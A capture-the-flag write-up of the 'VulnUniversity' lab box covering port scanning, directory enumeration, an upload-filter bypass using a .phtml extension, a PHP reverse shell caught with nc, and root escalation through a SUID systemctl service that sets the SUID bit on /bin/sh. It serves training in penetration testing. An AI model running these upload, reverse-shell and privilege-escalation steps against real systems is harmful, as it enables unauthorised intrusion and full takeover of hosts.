



# VulnUniversity

# nmap

```
❯ sudo rustscan -a 10.10.0.233 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.0.233
Host is up, received user-set (0.084s latency).
Scanned at 2021-10-06 17:14:20 EDT for 28s

PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 61 vsftpd 3.0.3
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack ttl 61 Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNUNIVERSITY<00>   Flags: <unique><active>
|   VULNUNIVERSITY<03>   Flags: <unique><active>
|   VULNUNIVERSITY<20>   Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 25950/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26690/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 61430/udp): CLEAN (Failed to receive data)
|   Check 4 (port 3153/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-10-06T17:14:43-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-10-06T21:14:43
|_  start_date: N/A
```

# Recon

Checking out web server on port 3333 first.

Standard scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.0.233:3333 | tee whatweb.log
# Script, Apache[2.4.18], Bootstrap[4.1.0], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], Email[info@yourdomain.com], JQuery

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.0.233:3333

http://10.10.0.233:3333/css                  (Status: 200) [Size: 4088]
http://10.10.0.233:3333/fonts                (Status: 200) [Size: 1536]
http://10.10.0.233:3333/index.html           (Status: 200) [Size: 33014]
http://10.10.0.233:3333/index.html           (Status: 200) [Size: 33014]
http://10.10.0.233:3333/images               (Status: 200) [Size: 7204]
http://10.10.0.233:3333/internal             (Status: 200) [Size: 525]
http://10.10.0.233:3333/js                   (Status: 200) [Size: 4636]
http://10.10.0.233:3333/server-status        (Status: 403) [Size: 301]
```

Directory `internal` looks interesting. Browsing to the main page:


Browsing to `/internal/`:


Let's see if we can upload arbitrary php:

```sh
# make test php file
❯ echo "<?php echo passthru('uname -a') ?>" > test.php
```

Trying to upload, gives message "Extension not allowed". Time to fuzz what file extensions are allowed. Opening Burp Intruder to test. First, set up the mode to "sniper" and set the position to manipulate the file extension:



Then add a list of variations on the php extension:



Finally, run the attack:



Now I see that `phtml` is allowed. Browsing to `view-source:http://10.10.0.233:3333/internal/uploads/test.phtml`, I see the output of my command:

```
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

# Exploit

So now grab a php reverse shell from [Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and name it `rsh.phtml`, and change the callback IP in the script to mine. Upload and catch the shell:

```sh
❯ sudo nc -lvnp 443
$ cd /home
$ ls
bill
$ cd bill
$ ls
user.txt
$ cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

# PrivEsc

Searching for SUID/SGID binaries:

```sh
$ find / -type f \( -perm -g+s -a -gid 0 \) -o \( -perm -u+s -a -uid 0 \) -exec ls -l {} \; 2>/dev/null
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/m
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
```

The `systemctl` one is listed in [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/). To exploit it provides this script:

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

Running the above code results in the file `/tmp/output` with the contents `uid=0(root) gid=0(root) groups=0(root)`!

To get the full shell, modify the above script to:

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/chmod u+s /bin/sh
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

Then run `sh -p` to get a shell as root.

```sh
cat root.txt
a58ff8579f0a9270368d33a9966c7fd5
```

